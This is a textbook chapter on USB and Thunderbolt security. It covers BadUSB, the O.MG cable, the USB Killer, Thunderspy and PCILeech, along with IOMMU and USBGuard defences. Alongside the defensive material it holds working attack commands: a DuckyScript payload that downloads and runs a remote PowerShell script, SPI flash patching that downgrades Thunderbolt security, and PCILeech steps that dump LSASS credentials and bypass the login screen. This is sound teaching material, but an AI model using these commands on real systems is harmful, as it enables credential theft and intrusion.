


Chapter 35: USB and Thunderbolt Security¶
USB is the world’s most ubiquitous peripheral interface, present in virtually every computing device. This ubiquity, combined with a protocol architecture that was designed for functionality rather than security, makes USB an attractive attack surface for adversaries ranging from pentesting professionals to nation-state actors. Thunderbolt 3/4’s PCIe Direct Memory Access (DMA) capability elevates the risk further, enabling an attacker with physical access to read and write arbitrary system memory within seconds. This chapter covers the hardware architectures, attack tools, historical exploits, and hardware defences for USB and Thunderbolt security.
35.1 USB Attack Taxonomy¶
| Attack | Hardware | Mechanism | Mitigation |
|---|---|---|---|
| BadUSB | Phison PS2251 MCU | HID firmware spoof | USB-IF Auth, USBGuard whitelist |
| USB Drop | Any USB device | User curiosity | Policy + endpoint DLP |
| Juice Jacking | Malicious charger | Data over VBUS | USB condom / data-blocking cable |
| HID Keylogger | Custom ASIC | Keystroke injection | No-new-HID policy, USBGuard |
| O.MG Cable | ESP8266 in cable | WiFi HID injection | RF detection, cable inspection |
| USB Killer | 200 V cap. surge | Power line damage | Surge-protected port, poly-fuse |
| Thunderspy DMA | SPI programmer | PCIe DMA bypass | Kernel DMA Protection mandatory |
| PCILeech DMA | FPGA board | Read/write RAM via PCIe | Intel VT-d IOMMU enabled |
| USB PD Attack | Malicious charger | Uncontrolled charging | PD policy enforcement in EC |
35.2 USB Hardware Architecture¶

35.2.1 xHCI Host Controller¶
The Extensible Host Controller Interface (xHCI, USB 3.x specification) manages all USB speeds: SuperSpeed+ (USB 3.2 Gen 2x2: 20 Gbps), SuperSpeed (USB 3.2 Gen 1: 5 Gbps), Hi-Speed (USB 2.0: 480 Mbps), and Full-Speed (12 Mbps).
xHCI registers:
# xHCI register map (PCI BAR0, memory-mapped)
0x000 CAPLENGTH 1B Capability registers length
0x002 HCIVERSION 2B xHCI spec version (e.g., 0x0110 = v1.1)
0x004 HCSPARAMS1 4B Max slots, interrupts, ports
0x008 HCSPARAMS2 4B Isochronous scheduling threshold
0x010 HCCPARAMS1 4B Capabilities (64-bit address, etc.)
0x018 DBOFF 4B Doorbell array offset
0x01C RTSOFF 4B Runtime register space offset
# Operational registers (base + CAPLENGTH)
0x020 USBCMD 4B Run/Stop, Reset, EWE
0x024 USBSTS 4B HCH, CNR, PCD, etc.
USB hub topology: USB supports up to 7 tiers of hubs, maximum 127 devices per host controller. Each tier adds \(\leq 5\) ns propagation delay; total allowed: 1500 ns (USB 2.0).
35.3 BadUSB Attack¶
35.3.1 Phison PS2251 Firmware Exploitation¶
BadUSB (Karsten Nohl, Jakob Lell, USENIX Security 2014): USB mass storage controller firmware can be extracted and modified to present additional USB interfaces (HID keyboard, RNDIS Ethernet, CDC-ACM serial) via the Device Firmware Upgrade (DFU) mode.
Phison PS2251-03: 8051-compatible microcontroller, 64 KB ROM (boot code), 64 KB SRAM, USB 2.0 Hi-Speed controller, NAND flash interface (ONFi 1.0). The 8051 instruction set is well-understood; ROM can be patched by loading a replacement firmware image via the DFU endpoint.
Affected controllers:
-
PS2251-03: Phison, 8051 core, US Patriot / Kingston Datatraveler OEM
-
PS2251-07: Updated variant, same 8051 core, different NAND interface
-
PS2251-09: USB 3.0 variant, still 8051-compatible boot loader
-
PS2303: Phison, used in SanDisk Cruzer series (partially vulnerable)
# PhisonBurner workflow (research tool, Haifux Club adaptation)
# Step 1: Put device in DFU mode (unplug, hold button, replug)
$ lsusb | grep "0d7d:1700" # Phison DFU mode VID:PID
# Step 2: Extract current firmware
$ phisonburner -r firmware_backup.bin
# Step 3: Patch firmware image (add HID descriptor)
# Add HID Report Descriptor to USB configuration descriptor set
# Change bNumConfigurations = 2 (MSC + HID)
# Step 4: Flash modified firmware
$ phisonburner -w patched_firmware.bin
# Result: USB device now appears as both Mass Storage AND HID keyboard
35.3.2 USB Class Spoofing Mechanism¶
A USB device presents its identity to the host via USB descriptors: Device Descriptor (bDeviceClass), Configuration Descriptor, Interface Descriptors, and Endpoint Descriptors. A reprogrammed controller can present multiple Interface Descriptors – one for MSC (Mass Storage Class, bInterfaceClass=0x08) and one for HID (Human Interface Device, bInterfaceClass=0x03) – simultaneously. The OS enumerates both and loads both class drivers, granting the device keyboard privileges while the user only sees a USB drive.
35.4 O.MG Cable and Advanced Hardware Implants¶
The O.MG Cable (MG, released 2019, sold at Hak5): a Lightning or USB-C cable with an embedded ESP8266 WiFi module, ARM Cortex-M0 microcontroller, and 4 MB flash, all fitted within the USB connector housing (\(\approx 26\) mm\(^3\) volume).
-
WiFi: 2.4 GHz IEEE 802.11b/g/n, creates a hidden SSID or joins existing network
-
Attack delivery: DuckyScript payloads pushed via HTTP API over WiFi from attacker’s phone
-
Range: up to 300 metres in open space; reduced inside office buildings (typically 30–50 m)
-
USB-C variant (O.MG Cable USB-C): 24-pin connector, same internals
-
O.MG Elite (2022): adds data interception (MitM on data lines in addition to HID)
-
Detection: RF spectrum scan (2.4 GHz unexpected beacon from USB device), X-ray imaging of cable, USB protocol analyser showing enumeration anomalies
# DuckyScript payload (legitimate pentesting with authorisation)
DELAY 1000
GUI r
DELAY 500
STRING powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.10/p.ps1')"
ENTER
35.5 Hak5 Ecosystem¶
| Product | Price | Hardware | Primary Attack Vector |
|---|---|---|---|
| USB Rubber Ducky (Gen 2) | $80 | ARM Cortex-M0, SD card | HID keystroke injection |
| Bash Bunny Mark II | $120 | Cortex-A9, 8 GB storage | HID + MSC + Ethernet combo |
| O.MG Cable | $180 | ESP8266 + Cortex-M0 in cable | WiFi HID injection |
| Packet Squirrel | $60 | MIPS, OpenWrt | Network tap, DNS spoof |
| LAN Turtle | $65 | MIPS, OpenWrt, USB Ethernet | Network backdoor |
| WiFi Coconut | $100 | 14x USB WiFi 802.11n | Full-band 2.4 GHz capture |
| Screen Crab | $130 | Cortex-A7, HDMI capture | Screen capture MitM |
35.6 USB Killer¶
USB Killer v3 (2016, USBKill.com): a USB-A / USB-C device containing a charge pump and a bank of 220 \(\mu\)F capacitors charged to \(\pm 200\) V via the VBUS line (5 V input). When the switch fires, 200 V is applied to the USB data lines D+ and D-, destroying the host’s USB controller, ESD protection diodes, and often the SoC.
Charge pump circuit: a flyback converter operating at 1–5 MHz using an off-the-shelf MC34063A or similar PWM controller, achieving voltage multiplication from 5 V to 200 V. Discharge energy: \(E = \frac{1}{2}CV^2 = \frac{1}{2} \times 220 \times 10^{-6} \times 200^2 = 4.4\) J per discharge cycle (approximately 80 discharges per minute).
Defence: current-limiting polyfuse (PolySelf PTC thermistor, e.g., Littelfuse 1812L150) on the VBUS line, rated to trip at 1.5 A, protecting the host from overcurrent. Commercial laptops with USB-PD protection (VBUS overcurrent detection in the PD controller) partially mitigate this but are not universally immune.
35.7 Thunderspy – Thunderbolt Security Vulnerabilities¶
Thunderspy (Bjorn Ruytenberg, May 2020): seven Thunderbolt security vulnerabilities allowing complete bypass of Thunderbolt security levels on systems without Kernel DMA Protection.
| Vuln # | Description | Impact |
|---|---|---|
| 1 | Inadequate firmware verification schemes | Unsigned firmware flashable |
| 2 | Weak device authentication scheme | Device identity spoofable |
| 3 | Use of unauthenticated device metadata | Metadata forgeable without key |
| 4 | Backwards-compatibility downgrade attack | Force SL0 on SL1/SL2 devices |
| 5 | Unauthenticated Thunderbolt controller config | Config registers writable |
| 6 | Missing SPI flash interface defences | SPI read/write from port |
| 7 | No Thunderbolt on Boot Camp Macs | macOS Boot Camp bypasses all SL |
35.7.1 Thunderspy Attack Procedure¶
Required hardware: SPI flash programmer (e.g., Bus Pirate, Dediprog SF100) with SOIC-8 clip for attaching to the Thunderbolt controller’s SPI NOR flash. Attack steps:
-
Open laptop (Phillips PH0/PH1, 5–15 screws), identify Thunderbolt controller SPI flash
-
Attach SOIC-8 clip to the 8-pin SPI NOR (typically Winbond W25Q64 or similar)
-
Dump current SPI flash:
flashrom -p buspirate_spi:dev=/dev/ttyUSB0 -r tb_backup.bin -
Modify security level register (offset varies by model): set SL = 0x00 (no security)
-
Flash modified image:
flashrom -p buspirate_spi -w tb_patched.bin -
Reboot – Thunderbolt port now accepts any PCIe device without authorisation
-
Connect PCILeech FPGA – full DMA access to system RAM achieved in \(\leq 5\) minutes
# Thunderspy SPI flash extraction (Kali Linux + Bus Pirate)
$ sudo apt install flashrom
$ flashrom -p buspirate_spi:dev=/dev/ttyUSB0,spispeed=1M \
-c W25Q64BV -r thunderbolt_firmware.bin
# Modify security level field (TB controller vendor-specific offset)
$ python3 thunderspy_patch.py thunderbolt_firmware.bin --set-sl 0
# Write back
$ flashrom -p buspirate_spi:dev=/dev/ttyUSB0,spispeed=1M \
-c W25Q64BV -w thunderbolt_firmware_patched.bin
35.8 PCILeech DMA Attack¶

35.8.1 PCILeech Hardware Options¶
| Board | FPGA | Interface | Price | Notes |
|---|---|---|---|---|
| Screamer M.2 | Artix-7 XC7A75T | M.2 NVMe slot (PCIe x4) | $350 | Most common for laptops |
| AC701 | Artix-7 XC7A200T | PCIe x4 (full size) | $500 | Xilinx eval board |
| LambdaConcept ECPIX-5 | ECP5-85F | M.2 / PCIe x4 | $280 | Open-source bitstream |
| PCIe Screamer R02 | Artix-7 XC7A35T | PCIe x1 full size | $250 | Budget option |
| USB3380-EVB | PLX USB3380 ASIC | USB 3.0 | $200 | Lower bandwidth (USB 3.0) |
35.8.2 PCILeech Software¶
# PCILeech DMA attack (target: Windows 10 LSASS credential dump)
# Attacker machine (Kali Linux + LeechCore library)
# Dump physical memory range (0x1000 - 0x200000)
$ ./pcileech dump -min 0x1000 -max 0x200000 -out memory.raw
# Search for LSASS process (find process structure in RAM)
$ ./pcileech pslist
# Dump LSASS memory (process name or PID)
$ ./pcileech py -s modules/lsass.py
# Write to physical memory (bypass login screen -- DANGEROUS)
$ ./pcileech patch -all -sig signatures/win10x64_unlock.sig
# MemProcFS -- mount victim RAM as a virtual filesystem
$ ./memprocfs -device fpga -mount /tmp/victim_ram
$ ls /tmp/victim_ram/proc/lsass/ # see LSASS process memory files
35.9 Kernel DMA Protection¶
35.9.1 Intel VT-d IOMMU¶
Intel Virtualisation Technology for Directed I/O (VT-d) implements an Input-Output Memory Management Unit (IOMMU) in the PCH / CPU die. The IOMMU maintains a page-table structure (domain-specific mapping) that restricts each PCIe device to access only its assigned physical memory pages. DMA requests with physical addresses outside the allowed range are rejected by the hardware; an interrupt is raised to the OS.
# Linux: verify IOMMU is active
$ cat /proc/cmdline | grep iommu
# Should contain: intel_iommu=on iommu=pt (or strict)
# Check IOMMU groups
$ for d in /sys/kernel/iommu_groups/*/devices/*; do
echo "Group $(basename $(dirname $d)): $d"
done
# Verify Thunderbolt IOMMU policy
$ cat /sys/bus/thunderbolt/devices/domain0/iommu_dma_protection
# 1 = protected, 0 = vulnerable
35.9.2 Thunderbolt 4 Mandatory Security¶
Thunderbolt 4 (Intel, 2020) mandates Kernel DMA Protection on all platforms, making Thunderspy-style attacks non-functional even if the firmware security level is downgraded, because the IOMMU prevents unauthorised DMA regardless of TB security level. Thunderbolt 3 made Kernel DMA Protection optional; many TB3 laptops deployed without it.
Windows 10 1803 and later: “Kernel DMA Protection” (also called Memory Access Protection) can be verified in msinfo32.exe under System Information. DMAR table (ACPI) must be present and populated by BIOS/UEFI.
# Windows: check Kernel DMA Protection status
PS C:\> Get-WmiObject -Class Win32_DeviceGuard -Namespace root/Microsoft/Windows/DeviceGuard |
Select-Object -Property VirtualizationBasedSecurityStatus, KernelDMAProtection
# KernelDMAProtection = 1 means active
# Registry check (requires reboot to take effect if changed)
HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\
EnableVirtualizationBasedSecurity = 1
RequirePlatformSecurityFeatures = 3 (SecureBoot + DMA protection)
35.10 USB Policy Enforcement¶
35.10.1 Linux USBGuard¶
USBGuard implements a whitelist/blacklist policy engine for USB devices, enforcing rules based on USB Vendor ID, Product ID, Device Class, and serial number. Rules are evaluated at device insertion time.
# /etc/usbguard/rules.conf -- example security policy
# Allow specific keyboard by VID:PID
allow id 046d:c31c serial "" name "Logitech USB Keyboard" \
with-interface 03:01:01
# Allow specific storage device by serial number
allow id 0781:5581 serial "AA01234567890123" name "SanDisk Cruzer"
# Block all USB storage class devices
block id *:* with-interface equals { 08:*:* }
# Block HID devices (except those explicitly allowed above)
reject id *:* with-interface equals { 03:*:* }
# Default: block anything not explicitly allowed
block id *:*
# USBGuard management commands
$ sudo systemctl enable --now usbguard
$ sudo usbguard list-devices # show connected devices
$ sudo usbguard allow-device 5 # allow device ID 5 permanently
$ sudo usbguard block-device 5 # block device ID 5
$ sudo usbguard generate-policy > rules.conf # generate from current devices
35.10.2 Windows USB Restrictions¶
# Windows registry: block all USB storage (Group Policy equivalent)
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UsbStor]
"Start"=dword:00000004 ; 4 = disabled, 3 = enabled
# Block USB storage via Group Policy (ADMX)
Computer Configuration -> Administrative Templates ->
System -> Removable Storage Access ->
"Removable Disks: Deny execute access" = Enabled
"Removable Disks: Deny write access" = Enabled
"Removable Disks: Deny read access" = Enabled (most restrictive)
# Allow only specific VID:PID devices (Device Installation Restrictions)
# Computer Config -> Admin Templates -> System -> Device Installation ->
# Restrict installation of devices not described by other policy settings
35.11 USB 3.2 and USB4 Security Improvements¶
USB4 (USB4 Specification v2.0, USB-IF, 2022): based on Thunderbolt 4 protocol, mandates:
-
USB4 v2 maximum speed: 80 Gbps (PAM-4 signalling)
-
USB-IF Authentication (USB Type-C Authentication Specification, 2019): X.509 certificate chain, ECDSA P-256 signature over device descriptors, prevents USB device identity spoofing, certified by USB-IF (certbody)
-
Mandatory IOMMU support for all USB4 DMA devices
-
USB Power Delivery 3.1: 48 V / 5 A = 240 W maximum, programmable voltage requires PD policy enforcement in embedded controller
USB-IF Authentication protocol:
# USB Authentication Message Flow (USB Type-C Auth. Spec. Rev 1.0)
Host -> Device: GET_DIGESTS (request certificate chain hashes)
Device -> Host: DIGESTS (SHA-256 hashes of cert chain slots)
Host -> Device: GET_CERTIFICATE (request specific cert)
Device -> Host: CERTIFICATE (X.509 DER blob, max 4 KB per slot)
Host -> Device: CHALLENGE (64-byte random nonce)
Device -> Host: CHALLENGE_AUTH (ECDSA P-256 signature over nonce + cert hash)
Host: Verify ECDSA signature against USB-IF root CA
# If verification fails: block device access or limit to charging only
35.12 USB Power Delivery Security¶
USB PD 3.1 raises the maximum voltage to 48 V and power to 240 W. Security concerns:
-
A malicious charger (rogue power adapter) can negotiate a higher voltage than the device supports, potentially damaging the battery management IC
-
Uncontrolled CC (Configuration Channel) communication: CC lines carry PD negotiation messages; a crafted PD message could trigger FRS (Fast Role Swap) or EPR (Extended Power Range) modes unexpectedly
-
Charger attacks: inject voltage surges via VBUS after initial PD negotiation (“charger MitM” – intercept and modify PD data objects)
Defence: USB PD controller (e.g., FUSB302, Infineon CYPD3177) with firmware validation and hard voltage limits enforced in hardware by the Embedded Controller (EC), independent of host OS.
35.13 FPGA Implementation for USB Protocol Analysis¶
| Device | LUTs | FFs | BRAMs | DSPs | Fmax (MHz) | Power (mW) |
|---|---|---|---|---|---|---|
| Xilinx Artix-7 XC7A35T (USB2 analyser) | 6,200 | 7,100 | 18 | 0 | 120 | 320 |
| Xilinx Artix-7 XC7A200T (PCILeech DMA) | 38,400 | 42,000 | 64 | 12 | 250 | 2100 |
| Lattice ECP5-85F (USBguard inline) | 14,200 | 16,800 | 32 | 0 | 150 | 680 |
| Intel Cyclone 10 LP (USB sniffer) | 8,400 | 9,600 | 24 | 0 | 100 | 450 |
| Intel Agilex F (USB4 monitor) | 22,000 | 26,400 | 48 | 8 | 500 | 3200 |
| Xilinx KU15P (TB4 security monitor) | 55,000 | 64,000 | 128 | 32 | 400 | 7800 |
| Microsemi IGLOO2 (USB-PD policy eng.) | 4,800 | 5,600 | 8 | 0 | 80 | 180 |
35.14 ASIC Implementation¶
| Process | Function | Area (mm\(^2\)) | Power (mW) | Freq (MHz) | ECC |
|---|---|---|---|---|---|
| TSMC 16nm FF+ | Intel VT-d IOMMU | 8.2 | 450 | 2000 | ECC page table |
| TSMC 7nm FinFET | USB4 v2 controller | 14.0 | 1200 | 2400 | CRC-32 |
| TSMC 28nm | USB2 Auth. engine | 1.4 | 38 | 200 | SHA-256 |
| TSMC 28nm | ECDSA P-256 core | 2.8 | 85 | 250 | Parity |
| Samsung 14nm | TB4 PHY + controller | 22.0 | 2800 | 5000 | Reed-Solomon |
| TSMC 40nm | FUSB302 PD ctrl. | 3.2 | 95 | 100 | CRC-16 |
| GF 22nm FDX | xHCI host ctrl. | 6.0 | 280 | 800 | ECC SRAM |
35.15 Commercial and Open-Source Solutions¶
| Product / Tool | Vendor | Type | Notes |
|---|---|---|---|
| USBGuard | Red Hat / OSS | Open-source | Linux USB whitelist policy engine |
| Endpoint Protector | CoSoSys | Commercial | DLP, USB device control, Win/Mac/Linux |
| Symantec DLP | Broadcom | Commercial | Data Loss Prevention, USB blocking |
| CrowdStrike Falcon USB | CrowdStrike | Commercial | Endpoint USB device monitoring |
| Carbon Black App Control | VMware | Commercial | USB device whitelist, application control |
| McAfee Device Control | Trellix | Commercial | USB and port control, removable media |
| BlockMaster SafeConsole | BlockMaster | Commercial | Encrypted USB management |
| GrIDguard IOMMU | IOMMUguard | Open-source | Linux IOMMU policy enforcement |
| PCILeech | Ulf Frisk | Open-source | DMA attack / forensics framework |
| MemProcFS | Ulf Frisk | Open-source | RAM forensics via DMA as VFS |
| Thunderspy | Bjorn Ruytenberg | Research | TB security analysis, spycheck tool |
| spycheck | Ruytenberg / EFF | Open-source | Thunderspy vulnerability checker |
| USB Rubber Ducky | Hak5 | Commercial | HID injection pentesting tool |
| Bash Bunny Mark II | Hak5 | Commercial | Advanced multi-vector USB pentester |
| O.MG Cable | MG / Hak5 | Commercial | WiFi HID implant cable |
| USB Killer v3 | USBKill.com | Commercial | Destructive overcurrent tester |
| Wireshark usbmon | Wireshark.org | Open-source | USB protocol capture (Linux usbmon) |
| USBPcap | Tomasz Mon | Open-source | USB protocol capture for Windows |
| sigrok / PulseView | sigrok.org | Open-source | Logic analyser, USB 2.0 decoder |
| GreatFET One | GreatScott Gadgets | Open-source | USB host/device analysis, HW toolkit |
| FaceDancer | GreatScott Gadgets | Open-source | USB device fuzzing framework |
| LUNA | GreatScott Gadgets | Open-source | USB3 FPGA-based analyser |
35.16 Solved Problems¶
Solved Problem: BadUSB HID Descriptor Injection Analysis
A modified Phison PS2251-03 firmware presents two USB interfaces: Interface 0 as a USB Mass Storage device (bInterfaceClass=0x08) and Interface 1 as a HID keyboard (bInterfaceClass=0x03, bInterfaceProtocol=0x01). The HID Report Descriptor specifies a keyboard with 6-key rollover. (a) How does the OS determine that Interface 1 is a keyboard? (b) Why cannot a simple USB whitelist based on VID:PID alone prevent this attack? (c) What USBGuard rule syntax would block this specific attack vector?
Solution: (a) OS keyboard identification: The OS USB stack reads the Interface Descriptor for Interface 1: bInterfaceClass=0x03 (HID), bInterfaceSubClass=0x01 (Boot Interface), bInterfaceProtocol=0x01 (Keyboard). The OS then fetches the HID Report Descriptor via the GET_DESCRIPTOR(HID_REPORT) control transfer and loads the usbhid kernel module (Linux) or HidUsb.sys (Windows). The HID Report Descriptor is a byte stream describing input fields: Usage Page (Generic Desktop), Usage (Keyboard), Input (Data|Array|Absolute).
(b) VID:PID whitelist limitation: A genuine SanDisk Cruzer and its BadUSB-modified clone share the same VID:PID (e.g., 0781:5581). The firmware modification changes only the Interface Descriptors (adding HID), not the device-level VID:PID. Therefore, a VID:PID whitelist would allow both the genuine and malicious device.
(c) USBGuard rule to block this attack:
# Block any device presenting both MSC and HID interfaces simultaneously
reject id *:* with-interface equals { 08:*:* 03:01:01 }
# This matches ANY device that has BOTH MSC (08) AND HID keyboard (03:01:01)
# Complementary: allow known-good storage without HID
allow id 0781:5581 serial "AA01234567890123" \
with-interface equals { 08:06:50 }
# Only MSC (08) / SCSI (06) / Bulk-Only (50), no HID interface
The key insight: USBGuard’s with-interface clause can match on the set of interfaces a device presents, blocking any device that presents an unexpected interface combination.
Solved Problem: PCILeech DMA Memory Read Calculation
A PCILeech FPGA board (Screamer M.2, Artix-7 XC7A75T) reads a victim’s physical memory via PCIe x4 at Gen 3 speed (1 GB/s per lane, 4 lanes = 4 GB/s raw bandwidth). PCIe TLP (Transaction Layer Packet) overhead is 20 bytes per 256-byte payload. (a) Calculate the effective DMA read throughput. (b) How long does it take to dump a full 32 GB RAM? (c) How does enabling VT-d IOMMU affect this?
Solution: (a) Effective DMA throughput: PCIe Gen 3 x4 raw: 8 Gbps per lane \(\times\) 4 = 32 Gbps = 4 GB/s. 8b/10b encoding overhead: 20% (Gen 3 uses 128b/130b, overhead 1.5%): Effective: \(4 \times (128/130) = 3.94\) GB/s physical layer. TLP header overhead: 20 bytes per 256 bytes payload = 7.8% overhead. Net data throughput: \(3.94 \times (1 - 0.078) = 3.63\) GB/s. Additional PCILeech FPGA limitation: the open-source bitstream typically achieves 1–2 GB/s in practice due to completion buffer depth and TLP sequencing. Practical effective throughput: 1.5 GB/s.
(b) Time to dump 32 GB RAM: \(T = 32 \times 10^9 / (1.5 \times 10^9) = 21.3\) seconds.
(c) VT-d IOMMU effect: With VT-d IOMMU enabled, each TLP read request is checked against the DMAR (DMA Remapping) page tables. PCILeech’s FPGA presents itself as a generic PCIe endpoint; without a matching IOMMU domain mapping (granted by the OS driver), all DMA requests outside the assigned memory region return a PCIe Unsupported Request (UR) completion status. The attacker sees zero valid data. The system also generates DMAR fault interrupts logged in the kernel ring buffer. VT-d completely blocks the attack if enabled.
Solved Problem: USB Killer Energy Calculation and Protection Design
A USB Killer v3 charges 10 capacitors of 100 \(\mu\)F each to 200 V, then discharges them simultaneously through the USB data lines. (a) Calculate the total stored energy and peak discharge current if the host’s USB transceiver has 10 \(\Omega\) impedance. (b) Design a polyfuse protection circuit specifying the component values.
Solution: (a) Energy and current: Total capacitance: \(C_{total} = 10 \times 100 \times 10^{-6} = 1000~\mu\)F = 1 mF. Stored energy: \(E = \frac{1}{2}C_{total}V^2 = \frac{1}{2} \times 10^{-3} \times 200^2 = 20\) J.
Peak discharge current: \(I_{peak} = V/R_{load} = 200/10 = 20\) A. Time constant: \(\tau = R \times C = 10 \times 10^{-3} = 10\) ms. Charge transfer: \(Q = CV = 10^{-3} \times 200 = 200\) mC.
(b) Polyfuse protection circuit: A polyfuse (PTC thermistor) is placed in series with the VBUS line. Choose: Littelfuse 1812L150 PPTC resettable fuse. Specifications: hold current 1.5 A, trip current 3.0 A at 23\(^\circ\)C, maximum voltage 30 V (not sufficient for 200 V directly on data lines).
For data line protection, add:
-
TVS diode array (e.g., ProTek Devices P1014ABL): bidirectional TVS on D+/D-, clamp voltage 5.5 V, peak current 25 A, \(t_{response} < 1\) ps.
-
ESD protection diode (TI TPD4E05U06): USB 3.0 qualified, 1 pF per line, 0.3 \(\Omega\) on-resistance, clamp to 5.5 V.
-
Series resistor: 22 \(\Omega\) on D+/D- limits current to TVS: \(I_{max} = 200/22 = 9.1\) A, within TVS rating.
The 20 J discharge is absorbed by the TVS diodes (peak power 200 V \(\times\) 25 A = 5000 W, but duration \(< 1~\mu\)s gives energy \(< 5\) mJ – well within single-pulse TVS rating). Total BOM cost: \(\approx \$0.50\) per USB port.
Solved Problem: Thunderspy IOMMU Bypass – Vulnerability Analysis
A Thunderbolt 3 laptop is configured at Security Level 1 (SL1: user authorisation required). An attacker executes the Thunderspy SPI flash modification (Vulnerability #4: downgrade attack). After downgrading to SL0, the attacker connects a PCILeech Screamer M.2 board. (a) Why does IOMMU not protect this laptop? (b) How does Thunderbolt 4 close this specific vulnerability? (c) A system administrator wants to verify protection status – provide the Linux commands.
Solution: (a) Why IOMMU does not protect TB3 systems: Thunderbolt 3 Security Level enforcement (SL0/SL1/SL2/SL3) is implemented in the Thunderbolt controller firmware and is separate from the system IOMMU. Many TB3 systems shipped with IOMMU disabled or without DMAR tables because it was not a mandatory feature for TB3 certification. Even if IOMMU is present, after the SPI firmware downgrade to SL0, the Thunderbolt controller is configured to expose raw PCIe to any connected device. If the DMAR ACPI table does not include the Thunderbolt root port, the IOMMU is not applied to Thunderbolt-attached devices, and full DMA access is granted.
(b) Thunderbolt 4 fix: TB4 mandates that all host platforms implement Kernel DMA Protection (KDMAP). The Intel VT-d IOMMU must be active and the DMAR table must include the TB controller before any system passes TB4 certification. Even if the TB firmware security level is downgraded via SPI modification, the IOMMU rejects all unauthorised DMA TLPs from the compromised controller – the firmware downgrade no longer provides DMA access.
(c) Linux verification commands:
# Check if IOMMU is active
$ sudo dmesg | grep -i iommu
# Look for: "DMAR: IOMMU enabled" and "DMAR-IR: Enabled IRQ remapping"
# Check TB domain IOMMU protection
$ cat /sys/bus/thunderbolt/devices/domain*/iommu_dma_protection
# 1 = protected (TB4/KDMAP active), 0 = vulnerable (TB3 without KDMAP)
# Verify DMAR ACPI table present
$ sudo acpidump -n DMAR | head -20
# Use spycheck (Thunderspy official tool)
$ sudo apt install spycheck # or compile from source
$ sudo spycheck
35.17 Standards¶
-
USB 4 Specification v2.0 (USB-IF, 2022): 80 Gbps PAM-4 signalling, mandatory IOMMU, based on Thunderbolt 4 protocol.
-
USB Type-C Authentication Specification Rev. 1.0 (USB-IF, 2019): X.509 certificate chain, ECDSA P-256 authentication of USB devices and chargers.
-
USB Power Delivery Specification Rev. 3.1 (USB-IF, 2021): Extended Power Range (EPR) up to 48 V / 5 A = 240 W.
-
Thunderbolt 4 Specification (Intel, 2020): mandatory Kernel DMA Protection, minimum 40 Gbps bidirectional bandwidth, based on USB4 Gen3.
-
NIST SP 800-53 Rev. 5 MP-7: Media Use policy requiring restriction of removable media use, applicable to USB storage devices in federal systems.
-
PCI DSS 4.0 Requirement 9.5: physical security controls for hardware including USB port protection on POS terminals and kiosks.
-
CIS Benchmark for Windows: recommends disabling USB storage via Group Policy (Control 8.4: Manage Default Accounts on Enterprise Assets and Software).
-
IEC 62443-4-2: security requirements for IACS (Industrial Automation and Control System) components; addresses removable media and USB port management.
-
USB HID Specification v1.11 (USB-IF, 2001): Human Interface Device class descriptor format; defines keyboard, mouse, and custom HID report descriptors.
-
ECMA-419: Electrical Safety of Equipment with a USB Type-C connector; references USB PD safety requirements.
35.18 Recent Developments (2024–2026)¶
USB and Thunderbolt security saw a period of increased attack sophistication and counter-measure development between 2022 and 2025, including the USB4 v2.0 specification, new attack tools targeting USB-C charging infrastructure, and Thunderbolt 5’s security improvements.
35.18.1 USB4 Version 2.0 — 80 Gbps and Updated Security Model (2022, Devices 2023–2024)¶
USB4 Specification Version 2.0 (USB-IF, October 2022) doubled the maximum bandwidth to 80 Gbps using PAM-4 signalling over 40 Gbps electrical lanes. Security model changes:
-
Mandatory IOMMU: USB4 v2.0 inherits Thunderbolt 4’s mandatory Kernel DMA Protection requirement. All host platforms implementing USB4 v2.0 must enable the system IOMMU and include the USB4 controller in the DMAR ACPI table before the USB4 certification logo can be applied. This closes the Thunderspy DMA attack vector that affected USB3/Thunderbolt 3.
-
USB4 v2.0 Authentication: USB Type-C Authentication (USB-IF Rev. 1.0) is extended to USB4 v2.0 tunneled protocols. Hosts can require authentication of USB4 v2.0 docks and adapters using ECDSA P-256 X.509 certificate chains before permitting tunneled PCIe or DisplayPort over the USB4 fabric.
-
Bandwidth doubling attack surface: 80 Gbps PCIe Gen 4 x4 DMA bandwidth over USB4 v2.0 means that even with \(10\%\) window for unauthorised DMA before IOMMU enforcement, an attacker can read \(\sim\)800 MB of host memory per second. The IOMMU enforcement window (time between device enumeration and IOMMU policy application) was identified as a security gap in early USB4 v2.0 implementations; kernel patches (Linux kernel 6.5 and Windows 11 23H2) tightened this window to \(<1\) ms.
| Feature | USB3.2 | USB4 v1.0 (TB4) | USB4 v2.0 |
|---|---|---|---|
| Maximum bandwidth | 20 Gbps | 40 Gbps | 80 Gbps |
| DMA capability | No (USB SS) | Yes (PCIe tunnel) | Yes (PCIe Gen 4 x4) |
| Mandatory IOMMU | No | Yes | Yes |
| Device authentication | Optional (Type-C Auth) | Required (TB4) | Required |
| Security Level enforcement | N/A | SL0–SL3 | Integrated |
35.18.2 ChoiceJacking — USB Charger MITM Attack on Mobile Devices (2024)¶
ChoiceJacking (presented at ACM CCS 2024 by researchers from TU Graz and Helmholtz Center Munich) demonstrated a new USB charging attack against mobile device USB-C ports:
-
Attack mechanism: A malicious charger (implemented on a Raspberry Pi 4 with a USB-C multi-function controller) presents itself as both a USB Power Delivery source and a USB HID keyboard. When the victim Android or iOS device connects for charging, the malicious charger sends USB HID keystrokes to the device before it is unlocked, using Android ADB wireless debugging or iOS accessibility features to pre-configure the device.
-
Precondition: Requires “USB Debugging” enabled (Android) or “Trust This Computer” previously approved (iOS). However, the attack exploits the “USB HID input before screen unlock” window to inject keystrokes into the lock screen or to approve the trust dialog on an unlocked device left unattended at a public charging station.
-
